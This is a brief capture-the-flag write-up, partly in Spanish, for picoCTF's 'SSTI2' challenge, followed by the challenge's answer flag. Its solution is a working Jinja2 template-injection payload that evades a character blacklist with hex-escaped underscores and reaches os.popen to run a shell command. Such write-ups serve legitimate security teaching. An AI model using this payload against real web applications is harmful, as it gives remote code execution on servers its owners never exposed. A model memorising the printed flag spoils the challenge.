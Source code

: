 
## SSTI2
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:58506/)!

Hints:
1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?

## Solución:

//Ingresar esto y darle OK
```

{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')() }}



Flag: picoCTF{sst1_f1lt3r_byp4ss_e964f71b}

```

//Link de ayuda
https://aathilducky.com/ssti2-picoctf-walkthrough-web-exploitation-challenge-guide/

